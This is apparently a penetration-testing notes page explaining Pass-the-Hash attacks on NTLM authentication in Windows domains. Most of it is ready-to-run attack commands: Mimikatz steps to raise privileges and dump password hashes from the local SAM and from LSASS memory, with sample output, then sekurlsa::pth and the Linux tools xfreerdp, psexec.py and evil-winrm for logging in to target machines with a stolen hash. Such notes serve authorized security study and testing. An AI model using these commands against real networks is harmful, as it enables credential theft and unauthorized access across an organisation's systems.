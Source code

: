 # Pass-the-Hash (NTLM)

Refer to the following resources for more information on the relevant topics:

1. &#x20;[pass-the-hash](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/tools/mimikatz/pass-the-hash) attack.
2. [NetNTLM](https://jarrettgxz-sec.gitbook.io/windows/active-directory-ad/authentication-methods/netntlm) authentication

The Pass-the-Hash (PtH) method relies on the way the NTLM authentication process works, where a user can authenticate to a Windows domain configured to use NTLM authentication just by merely knowing the NTLM hash. Thus, we won't even have to crack the NTLM hashes as we will not require the actual password to authenticate successfully.

Mimikatz provides 2 methods to retrieve the NTML hashes:

a. Local SAM&#x20;

b. LSASS memory

Ensure to perform the necessary actions before we attempt to harvest the credentials. Refer to the [following](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/tools/mimikatz) for more information on each module.

```
mimikatz # privilege::debug
mimikatz # token::elevate
```

### (1) Local SAM

This method will only allow us to retrieve hashes from the local users on the machine only (No domain user's hashes).

{% code overflow="wrap" %}
```
mimikatz # lsadump::sam
```
{% endcode %}

Eg. We have found the username `test.user` with the NTLM hash value `1b2axxxx` :

```
mimikatz # lsadump::sam

RID  : xxxx
User : jarrett.gxz
  Hash NTLM: 1b2axxxx
```

### (2) LSASS memory

```
mimikatz # sekurlsa::msv
```

Eg. We have found the username `jarrett.gxz` in the domain `test.domain`, with the NTLM hash value `1b2axxxx` :

```
mimikatz # sekurlsa::msv

Authentication Id : xxxx
Session           : xxxx 
User Name         : jarrett.gxz
Domain            : TEST
...
        msv :
         [00000003] Primary
         * Username : test.user
         * Domain   : test.domain
         * NTLM     : 1b2axxxx
```

### Perform Pass-the-Hash

{% code overflow="wrap" %}
```
mimikatz # token::revert 

mimikatz # sekurlsa::pth /user jarrett.goh /domain:test.domain /ntlm:1b2axxxx /run:"<payload>"
```
{% endcode %}

> Note we first have to run `token::revert` to revert back to our original token privileges, as trying to pass-the-hash with an elevated token won't work

We can view the `sekurlsa::pth` module command as equivalent to using the [`runas /netonly`](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/enumeration/runas.exe) command with a hash instead of a password.

### PtH with Linux

Several tools exists in Linux, with built-in support to perform PtH. The following outlines a few:

1. `xfreerdp`

{% embed url="https://www.kali.org/blog/passing-hash-remote-desktop/" %}

```sh
$ xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```

2. `psexec.py`

{% embed url="https://www.kali.org/tools/impacket-scripts/#impacket-psexec" %}

```sh
$ psexec.py -hashes NTLM_HASH domain/<username>@<target>
```

3. `evil-winrm`

{% embed url="https://www.kali.org/tools/evil-winrm/" %}

```sh
$ evil-winrm -i <target> -u <username> -H NTLM_HASH
```

